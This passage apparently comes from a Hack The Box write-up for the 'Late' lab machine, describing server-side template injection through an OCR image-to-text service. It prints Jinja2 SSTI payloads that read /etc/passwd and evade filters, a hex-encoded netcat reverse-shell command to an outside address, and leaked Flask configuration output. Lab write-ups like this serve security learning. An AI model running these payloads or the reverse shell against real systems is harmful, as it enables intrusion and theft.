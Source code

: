 Removing the surrounding brackets and sending the image again results in:

```
<p>"_class__.__mro__[2].__subclasses__()[40]('/etc/passwd’).read()
</p>
```

The OCR is actually making a few mistakes:

- the adjacent single quotes are seen as a double quote
- there are missing dots and underlines

### Lowering the confusion between characters

Bold fonts and increasing the font size improve the precision overall.

This can be done by encapsulating the payload in a `<h4>` tag:

```html
<h4 align="center" style="white-space: nowrap;min-width: 2048px; font-family: 'Roboto Mono', monospace;">
{{ request | attr ( "application" ) | attr ( "\x5f\x5fglobals\x5f\x5f" ) | attr ( "\x5f\x5fbuiltins\x5f\x5f" ) }}
</h4>
```
Still, many characters can be confused visually:

- `0` and `O`
- `I`, `l` and `1`
- `e` and `c`

### Maximizing the payload interpretability

The monospace helped a lot with character separation. A few extra spaces can
prevent the OCR from fusing adjacent symbols into one, like the single quotes.

Usually base64 is useful to reduce the character set and avoid special / filtered
characters.

Here the issue is mostly with lower case characters.

So we can use uppercase HEX to express the payload:

```shell
# 6E632031302E31302E31362E342038383838202D65202F62696E2F62617368
echo -n 'nc 10.10.16.4 8888 -e /bin/bash' | xxd -p -u -c 1024
```

## SSTI exploitation

### Grabbing informations

Starting with a simpler payload like `{{ config.items() }}`:

```
<p>dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, b&#39;_5#y2L&#34;F4Q8z\n\xec]/&#39;), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, False), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, None), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])
</p>
```

[author-profile]: https://app.hackthebox.com/users/389926
[hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[image-payload]: images/image-payload.png
[linpeas]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
[pspy]: https://github.com/DominicBreuker/pspy
[screenshot-frontpage]: images/screenshot-frontpage.png
[screenshot-webservice]: images/screenshot-webservice.png
[ssti-vector]: images/ssti-test.png
[webservice-url]: http://images.late.htb